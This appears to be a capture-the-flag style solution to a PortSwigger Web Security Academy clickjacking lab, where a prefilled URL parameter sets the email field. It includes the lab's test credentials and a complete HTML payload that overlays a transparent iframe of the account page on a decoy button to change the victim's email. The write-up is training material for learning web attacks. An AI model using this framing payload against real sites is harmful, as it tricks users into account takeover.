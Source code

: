 # Clickjacking with form input data prefilled from a URL parameter

## Task

This lab extends the basic [clickjacking example](https://portswigger.net/web-security/clickjacking) in [Lab: Basic clickjacking with CSRF token protection](https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected). The goal of the lab is to change the email address of the user by prepopulating a form using a URL parameter and enticing the user to click on a "update email" button without the user's knowledge.

To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address. The account is solved when the email address is changed.

You have an account on the application that you can use to help design your attack. The credentials are: carlos / montoya. 

## Solution

```xml
<html>
<head>
  <style>
    #target_website {
      position: relative;
      width: 260px;
      height: 424px;
      opacity: 0.5;
      z-index: 2;
      top: -389px;
      left: -40px;
    }

    #decoy_website {
      position:absolute;
      width:300px;
      height:400px;
      z-index:1;
    }
  </style>
</head>
<body>
  <div id="decoy_website">
   <button>Just click this button!</button>
  </div>
  <iframe id="target_website" src="https://ac101ff41f9f41d58078175500d90028.web-security-academy.net/email?email=my@evil.mail">
  </iframe>
</body>

</html>
```